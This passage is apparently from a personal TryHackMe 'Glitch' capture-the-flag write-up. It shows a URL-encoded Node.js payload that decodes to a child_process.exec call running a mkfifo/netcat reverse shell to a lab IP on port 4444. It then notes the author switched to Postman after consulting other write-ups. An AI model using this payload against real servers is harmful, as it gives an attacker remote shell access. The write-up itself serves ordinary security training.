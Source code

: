 Url encoded in Burp decoder
```
%72%65%71%75%69%72%65%28%22%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%22%29%2e%65%78%65%63%28%27%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%0a%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%39%35%2e%35%30%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66%20%27%29
```

Given that I then got errors I headed over to read [infamous55's writeup](https://infamous55.medium.com/tryhackme-glitch-official-writeup-c86e985c7e4). 
I saw one screenshot and remembered postman actually exists.
![postman](Screenshots/postman-one.png)

Infamous references [CurlS](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44). 
